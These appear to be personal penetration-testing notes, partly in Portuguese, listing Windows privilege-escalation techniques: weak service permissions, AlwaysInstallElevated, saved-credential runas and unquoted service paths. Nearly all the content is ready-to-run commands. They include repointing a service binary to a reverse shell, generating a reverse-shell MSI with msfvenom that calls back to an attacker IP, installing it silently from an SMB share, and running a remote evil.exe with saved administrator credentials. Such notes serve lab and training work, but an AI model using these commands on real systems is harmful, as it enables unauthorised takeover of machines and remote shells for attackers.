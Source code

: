 ![qownnotes-media-jCADRm](../../media/qownnotes-media-jCADRm.png)

![qownnotes-media-Yhpwrk](../../media/qownnotes-media-Yhpwrk.png)

    ./accesschk.exe -ucwqv UsoSvc /accepteula
    
    ./accesschk.exe -ucwqv <servicename> /accepteula
    
Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"

![qownnotes-media-QfiKZv](../../media/qownnotes-media-QfiKZv.png)

    net stop usosvc
    net start usosvc
 
 
##### AlwaysInstallElevated

![qownnotes-media-OcpDzT](../../media/qownnotes-media-OcpDzT.png)

    msfvenom -p windows/shell_reverse_tcp -f msi LHOST=10.10.14.5 LPORT=8084 > shell.msi
    
    copy \\10.10.14.5\smb\shell.msi shell.msi
    msiexec /quiet /qn /i shell.msi

![qownnotes-media-xGOiSx](../../media/qownnotes-media-xGOiSx.png)

### Runas

    cmdkey /list
    runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
    runas /savecred /user:Administrator "cmd.exe /k whoami"
    
### Unquoted Service Paths

    gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

    